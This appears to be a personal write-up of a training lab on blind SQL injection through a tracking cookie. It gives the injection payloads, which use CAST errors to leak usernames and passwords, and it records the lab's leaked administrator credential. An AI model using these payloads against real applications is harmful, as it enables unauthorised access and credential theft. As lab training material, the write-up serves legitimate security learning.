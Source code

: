 This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.

---

**Goal:** Exploit vulnerable tracking cookie. Leak administrator password, then login as the user. 

**Analysis:**

`select trackingId from trackingIdTable where trackingId='pFNjoVuG3fnTFJ3a''`

SELECT * FROM tracking WHERE id = 'pFNjoVuG3fnTFJ3a'--'. Expected  char


CAST()
_Enables you to convert one data type to another._

`pFNjoVuG3fnTFJ3a' AND CAST((SELECT 1) as int)--`

```php
' AND CAST((SELECT 1) as int)--
```

```php
' AND 1=CAST((SELECT username from users LIMIT 1) as int)--
```

```php
' AND 1=CAST((SELECT password from users LIMIT 1) as int)--
```

I had to remove the tracking cookie completely and just use the payload for it to work.

![[Pasted image 20240903081734.png]]

administrator:3y8qs5dd8k66nxeg8u0x

![[Pasted image 20240903081846.png]]

---

**Completed:** _08:19 2024-09-03_

